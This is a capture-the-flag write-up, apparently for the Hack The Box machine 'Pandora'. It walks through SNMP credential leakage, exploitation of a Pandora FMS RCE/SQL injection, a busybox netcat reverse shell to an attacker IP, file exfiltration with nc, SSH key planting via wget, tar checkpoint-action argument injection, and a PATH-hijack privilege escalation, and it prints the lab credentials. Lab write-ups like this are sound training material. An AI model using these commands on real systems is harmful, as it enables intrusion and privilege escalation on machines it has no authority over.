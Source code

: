 #Pwned! 
```IP

```
# Enumeration
## SSH

## HTTP 80
Apache httpd 2.4.41
## SNMP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217112117.png?raw=true)
```
daniel:HotelBabylon23
```

# Exploitation

# PrivEsc

## Manual
```
ssh daniel@10.10.11.136
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217112534.png?raw=true)

## Automated

### Peass

/tmp/pspy64

lrwxrwxrwx 1 root root 22 Jun 11  2021 /etc/alternatives/my.cnf -> /etc/mysql/mariadb.cnf                                                                                                                                                  
lrwxrwxrwx 1 root root 24 Jun 11  2021 /etc/mysql/my.cnf -> /etc/alternatives/my.cnf                                                                                                                                                       
-rw-r--r-- 1 root root 83 Dec  7  2021 /var/lib/dpkg/alternatives/my.cnf  
/etc/apache2/sites-enabled/pandora.conf
/usr/bin/pandora_backup


If we curl localhost we get the pandora http webpage
We use ligolo for portforwarding and to access it from our browser 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123241.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123255.png?raw=true)
Now we have access from our machine:
```
curl 240.0.0.1
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123457.png?raw=true)
The webpage has a login access:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123339.png?raw=true)
When using the daniel credentials we already had it prompts the following error:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217123134.png?raw=true)

v7.0NG.742_FIX_PERL2020
RCE exploit for our Pandora version:
https://www.exploit-db.com/exploits/50961
```
python exploit.py -t 240.0.0.1 80 -u daniel 'HotelBabylon23' -c 'whoami'
```
It does not work with our credentials as shown below:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217124015.png?raw=true)

https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated
```
python sqlpwn.py -t 240.0.0.1 -f rev.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217164522.png?raw=true)
We can spawn a bash shell with busybox
```
busybox nc 10.10.14.16 443 -e sh
```
And then upgrade it with python3
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217165745.png?raw=true)
We got the flag!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217165937.png?raw=true)
We locate some credentials
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217170815.png?raw=true)
pandora:PandoraFMSSecurePass2021
We can't log to the mysql server with these credentials though
```
find / -perm -u=s -type f 2>/dev/null
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217174749.png?raw=true)
This is not a common file to have SUID permissions. Let's take a closer look to it.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217174913.png?raw=true)
we have execution and reading privileges over it as matt, but it belongs to the root user. Suspicious.

We transfer the file to our local machine in order to execute the strings command over it:
```
nc 10.10.14.16 4444 < /usr/bin/pandora_backup
nc -lvnp 4444 > pandora_backup
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217175114.png?raw=true)
Once we execute the strings command over it we can see that it is executing tar without a full path, which can become a privilege escalation vector:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217175309.png?raw=true)
In GTFOBins we can find how to exploit this permission. It will read everything in the /var/www/pandora/pandora_backup/ directory, so we can create files that mimic a flag. The following flags can execute code as stated in the following URL:
https://gtfobins.github.io/gtfobins/tar/

```
echo "" > ' --checkpoint=1'
echo "" > ' --checkpoint-action=exec=sh'
```
Now we will execute the binary:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217180820.png?raw=true)
And it fails. For some reason sudo -l does not request us any password. for some reason setuserID user calls are broken.
With 
```
ps -ef
```
we can trace back what are our current process parents, and we will see that apache is one of them
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217181507.png?raw=true)
If we take a look at its configuration we will discover that there is a SetUserID that is breaking our same call
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217181700.png?raw=true)
We have to escape apache, so we will create  ssh keys in our machine
```
ssh-keygen -f matt
```
```
mkdir /home/matt/.ssh
cd /home/matt/.ssh
wget http://10.10.14.16:8000/matt.pub -O authorized_keys
```
And from our machine:
```
ssh -i matt matt@10.10.11.136
```
Which will bring us a shell that runs sudo fine.
We now run the program and it still does not work
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217183639.png?raw=true)
We can see that it is not executing our files as flags.... we will try yet another aproach. tar is executing without its full path. So we will create our own tar malicious file and inject a new directory to our PATH variable
```
echo '/bin/bash' > tar
chmod +x tar
export PATH=$(pwd):$PATH
/usr/bin/pandora_backup
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217184521.png?raw=true)
### Mimikatz

# Lateral Movement


